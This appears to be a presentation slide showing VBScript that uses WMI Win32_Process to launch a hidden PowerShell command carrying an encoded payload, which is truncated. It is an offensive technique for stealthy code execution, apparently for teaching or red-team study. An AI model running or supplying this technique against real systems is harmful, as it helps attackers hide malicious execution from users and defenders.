

# WMI Win32_ProcessStartup and Win32_Process
Dim payload = "powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVg..."
strComputer = "."
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
objConfig.ShowWindow = HIDDEN_WINDOW
Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root\cimv2:Win32_Process")
objProcess.Create payload, Null, objConfig, intProcessID